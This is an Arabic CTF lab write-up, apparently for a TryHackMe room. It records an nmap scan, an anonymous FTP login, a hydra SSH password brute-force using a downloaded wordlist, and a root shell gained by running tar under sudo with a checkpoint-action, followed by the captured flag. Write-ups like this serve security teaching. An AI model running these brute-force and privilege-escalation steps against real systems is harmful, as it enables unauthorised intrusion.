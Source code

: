 

## 1. Reconnaissance (استكشاف الخدمة النشطة)

### فحص المنافذ باستخدام Nmap:

قمنا بإجراء فحص باستخدام `nmap` للكشف عن المنافذ المفتوحة والخدمات الموجودة على الهدف:

```
nmap -sV 10.10.129.160
```

**النتائج:**

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### تحليل النتائج:

- المنفذ `21` مفتوح ويشغل خدمة `vsftpd 3.0.3` (خادم FTP).
- المنفذ `22` يعمل عليه `OpenSSH 7.2p2` (قد يكون وسيلة للدخول لاحقًا).
- المنفذ `80` يعمل عليه `Apache` (قد يحتوي على موقع ويب يمكن استغلاله).

## 2. استغلال FTP (Anonymous Login)

قمنا بمحاولة الدخول إلى خادم FTP باستخدام `anonymous`، حيث نجح تسجيل الدخول.

```
ftp 10.10.8.245
Name (10.10.8.245:yousef): anonymous
230 Login successful.
```

بعد تسجيل الدخول، قمنا بفحص الملفات الموجودة على الخادم:

```
ls
```

**النتيجة:**

```
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

ثم قمنا بتنزيل الملفات لاستخراج أي معلومات مفيدة:

```
get locks.txt
get task.txt
```

## 3. استخراج بيانات تسجيل الدخول

بفحص محتويات `task.txt` وجدنا ملاحظة قد تشير إلى استخدام كلمات مرور محددة. ثم استخدمنا `locks.txt` كمصدر لكلمات المرور لمحاولة الدخول عبر SSH.

## 4. الدخول عبر SSH

قمنا باستخدام `hydra` لتجربة تسجيل الدخول عبر SSH باستخدام اسم المستخدم `lin` وقاموس كلمات المرور المستخرج من `locks.txt`:

```
hydra -l lin -P locks.txt ssh://10.10.129.160
```

**تم العثور على كلمة المرور!** ثم قمنا بتسجيل الدخول:

```
ssh lin@10.10.129.160
```

## 5. تصعيد الصلاحيات (Privilege Escalation)

بعد تسجيل الدخول، قمنا بفحص الأوامر التي يمكن تشغيلها بصلاحيات `sudo`:

```
sudo -l
```

وجدنا إمكانية تشغيل `tar` بصلاحيات `sudo`، مما يمكننا من استغلال `checkpoint-action` للحصول على `root`:

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

**الآن نحن `root`!**

## 6. استخراج العلم (Root Flag)

بما أننا حصلنا على صلاحيات `root`، انتقلنا إلى مجلد `/root` للحصول على العلم:

```
cd /root
ls
cat root.txt
```

**العلم:**

```
THM{80UN7Y_h4cK3r}
```